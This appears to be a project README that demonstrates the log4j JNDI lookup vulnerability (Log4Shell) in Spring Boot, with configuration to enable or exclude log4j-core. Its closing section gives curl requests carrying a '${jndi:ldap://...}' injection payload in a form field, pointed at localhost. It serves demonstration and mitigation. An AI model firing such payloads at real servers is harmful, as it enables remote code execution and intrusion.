 ### log4j lookup problem demonstration for spring projects

#### This issue will not affect spring projects with default configurations. Spring uses a logback by default.
#### By default, even if you try to use Logger for log4j (like below), it will still use the logback.
    import org.apache.logging.log4j.Logger;
    import org.apache.logging.log4j.LogManager;
    
    Logger log =  LogManager.getLogger(Log4jJndiBugApplication.class);


#### To use log4j you must exclude 'spring-boot-starter-logging' and include 'log4j'
    dependencies {
        implementation 'org.springframework.boot:spring-boot-starter-log4j2:2.5.1'
    }
    configurations {
        all*.exclude module: 'spring-boot-starter-logging'
    }

#### Don't forget only log4j-core impacted with this issue. You can stop this issue by excluding 'log4j-core'. 
    configurations {
        all*.exclude module: 'log4j-core'
    }

Use next method for investigations.

    GET http://localhost:8080/api/infected-method
    cardNumber: ${jndi:ldap://localhost:8082/api/long-wait}

####Curl request example
    
    curl --location --request GET 'localhost:8080/api/infected-method' --form 'cardNumber=${jndi:ldap://localhost:8082/api/long-wait}'
    
    curl --location --request GET 'localhost:8080/api/infected-method?cardNumber=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A8082%2Fapi%2Flong-wait%7D'
